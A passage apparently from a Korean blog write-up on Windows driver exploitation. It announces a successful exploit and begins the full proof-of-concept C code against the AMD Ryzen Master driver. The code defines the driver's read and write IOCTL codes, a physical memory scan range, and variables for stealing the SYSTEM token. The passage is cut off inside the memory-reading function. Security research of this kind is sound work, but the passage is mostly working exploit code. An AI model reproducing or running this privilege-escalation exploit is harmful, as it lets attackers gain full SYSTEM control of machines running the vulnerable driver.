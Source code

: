 ![](./windows-driver-part4/3.gif)

익스 성공!

<br>

아래는 전체 PoC입니다.

```c
#include <Windows.h>
#include <stdio.h>

#define DEVICE_NAME         L"\\\\.\\AMDRyzenMasterDriverV15"
#define WRITE_IOCTL         (DWORD)0x81112F0C
#define READ_IOCTL          (DWORD)0x81112F08
#define START_ADDRESS       (INT64)0x120000000
#define END_OF_ADDRESS      (INT64)0x240000000

typedef struct {
    INT64 start_address;
    DWORD num_of_bytes;
    char receiving_buff[0x1000];
} READ_INPUT_BUFFER;

typedef struct {
    INT64 proc_address[300];
    INT64 page_entry_offset[300];
    INT64 header_size[300];
    INT64 proc_count;
} PROC_DATA;

INT64 cmd_token_addr = 0;
INT64 system_token_value = 0;

PROC_DATA read_memory(HANDLE dHandle)
{
    DWORD dwRet;
    PROC_DATA proc_data = { 0, };
    
    DWORD len = 0x1000;
    INT64 i = 0;

```